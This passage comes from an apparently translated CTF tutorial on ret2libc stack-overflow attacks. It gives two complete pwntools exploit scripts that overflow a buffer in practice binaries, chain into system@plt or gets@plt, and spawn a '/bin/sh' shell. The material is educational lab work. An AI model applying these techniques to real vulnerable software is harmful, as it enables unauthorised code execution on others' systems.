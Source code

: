 Since there is a `system` function, you can just return to it and execute the `system` function. Here we need to pay attention to the structure of the function call stack. If the `system` function is called normally, we will have a corresponding return address when we call it. Here we use `bbbb` as a false address, and the corresponding parameter contents of the parameters afterwards. `exploit` is as follows:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2libc1')

binsh_addr = 0x8048720
system_plt = 0x08048460

# flat module can combine pattern strings and addresses and convert them to byte mode
payload = flat(['a' * 112, system_plt, 'b' * 4, binsh_addr])

sh.sendline(payload)
sh.interactive()
```

<div align=center><img src="./images/34.png"></div>

### Example 2
Program download link: [ret2libc2](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc2/ret2libc2).

This question is basically the same as `Example 1`, but the `/bin/sh` string no longer appears. Therefore, we need to read the string ourselves this time, and two `gadgets` are needed. The first control program reads the string, and the second control program executes `system("/bin/sh")`. Since the vulnerability is consistent with the above, `exploit` is as follows:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2libc2')

gets_plt = 0x8048460
pop_ebx = 0x0804843d
system_plt = 0x8048490
buf2 = 0x804A080


# flat module can combine pattern strings and addresses and convert them to byte mode
# payload1 = flat(["a"*112,gets,pop,buf2,system,"aaaa",buf2])
payload2 = flat(['a' * 112, gets_plt, system_plt, buf2, buf2])

sh.sendline(payload2)
sh.sendline('/bin/sh')
sh.interactive()
```
